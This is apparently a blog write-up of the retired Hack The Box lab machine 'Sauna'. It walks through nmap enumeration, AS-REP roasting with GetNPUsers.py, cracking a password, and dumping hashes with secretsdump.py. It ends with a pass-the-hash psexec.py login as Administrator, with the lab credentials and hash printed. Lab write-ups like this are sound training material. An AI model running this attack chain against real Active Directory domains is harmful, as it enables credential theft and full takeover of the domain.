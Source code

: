 ```yaml
---
title: "Hackthebox Sauna Writeup"
date: 2020-07-20 00:00:00 +0530
categories: [HACKTHEBOX, Retired]
tags: [htb]
image:  "assets/img/Posts/sauna/1.png"

---
```

<!-- ![img1]({{ "/assets/img/Posts/sauna/1.png" | relative_url }}) -->

Let's begin the journey of exploiting the box. It's an easy windows box with 20 points. We will be utilizing some of the tools such as [EvilWinRm](https://github.com/Hackplayers/evil-winrm) , [GetNPUsers](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetNPUsers.py) , winPEAS , and mimikatz.exe and secretdump.py for privilege escalation.


# **Enumeration**

We will be running [nmapAutomator](https://github.com/21y4d/nmapAutomator) tool which would cover all types of basic enumeration.

```console
./nmapAutomator 10.10.10.175 All
```

The result is as below

```console
Nmap scan report for 10.10.10.175
Host is up (0.30s latency).
PORT STATE SERVICE VERSION
53/tcp open domain?
| fingerprint-strings:
| DNSVersionBindReqTCP:
| version
|_ bind
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2020–07–17 03:55:16Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=7/16%Time=5F10BD89%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,”\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\SF:x04bind\0\0\x10\0\x03");
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open mc-nmf .NET Message Framing
49667/tcp open msrpc Microsoft Windows RPC
49673/tcp open msrpc Microsoft Windows RPC
49674/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49675/tcp open msrpc Microsoft Windows RPC
49686/tcp open msrpc Microsoft Windows RPC
58118/tcp open msrpc Microsoft Windows RPC
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: 7h05m02s
| smb2-security-mode:
| 2.02:
|_ Message signing enabled and required
| smb2-time:
| date: 2020–07–17T03:57:44
|_ start_date: N/A
```

There are a bunch ports open lets list down the ports which would be useful in exploiting the box. There is Web server running at port 80. We have kerberos service running at port 389 and 3268 .We also got the domain name which got revealed by ldap service EGOTISTICAL-BANK.LOCAL .

I moved on to enumerating with enum4linux but didn't find any usernames. We even tried enumerating the SMB but didn't find something interesting .

As we got the HTTP port open lets enumerate the website.

![img2]({{ "/assets/img/Posts/sauna/2.png" | relative_url }})

After visiting the website found some user names in the "About-us"

![img3]({{ "/assets/img/Posts/sauna/3.png" | relative_url }})

Let's take a note of the usernames with a type of combination which would help us in enumeration during the ldap and kerberos. Below is the format in which we could form the user.txt.

![img4]({{ "/assets/img/Posts/sauna/4.png" | relative_url }})

After getting some usernames. We would be using the Impacket tool which has a GetNPUsers python script that returns the TGT(Ticket Granting Ticket) only if the user account doesn't need kerberos per-authentication.


# **Exploitation**

Now we would run the GetNPUsers.py against the domain name which will give us the TGT for the user FSmith.

```console
$ python3 GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile user.txt -outputfile tgt.txt -dc-ip 10.10.10.175
```
![img5]({{ "/assets/img/Posts/sauna/5.png" | relative_url }})

![img6]({{ "/assets/img/Posts/sauna/6.png" | relative_url }})

After cracking the hash with john using rockyou.txt file we achieved the password for

>FSmith : Thestrokes23

![img7]({{ "/assets/img/Posts/sauna/7.png" | relative_url }})

Now we will login using evil-winrm.

![img8]({{ "/assets/img/Posts/sauna/8.png" | relative_url }})

After logging in as FSmith we got the user.txt file. Now lets move on to the post-exploitation.

![img9]({{ "/assets/img/Posts/sauna/9.png" | relative_url }})


# **Post-Exploitation**

Let us first list down the users present .

![img10]({{ "/assets/img/Posts/sauna/10.png" | relative_url }})

The method is to use "winPEAS.exe" to collect information and get the password of svc_loanmgr and as we got DPAPI Master key which we could attack with mimikatz.

![img11]({{ "/assets/img/Posts/sauna/11.png" | relative_url }})

Then execute the winPEAS.exe file . Below are some interesting finding.

![img12]({{ "/assets/img/Posts/sauna/12.png" | relative_url }})

Now we have got the default password for svc_loanmgr user .

In the results of ./winPEAS.exe we got DPAPI master key which we could attack with mimikatz.

Lets dump the hashes by [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)

```console
$ python3 secretsdump.py EGOTISTICAL-BANK/svc-loanmgr@10.10.10.175
```

![img13]({{ "/assets/img/Posts/sauna/13.png" | relative_url }})

Now lets use the Administrator hash to get logged in using the [psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py)


```console
$ python3 python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff Administrator@10.10.10.175
```

![img14]({{ "/assets/img/Posts/sauna/14.png" | relative_url }})

Bingo we have successfully rooted the box .


**By Swar Shah**
<br>

![img15]({{ "/assets/img/Posts/sauna/15.png" | relative_url }})
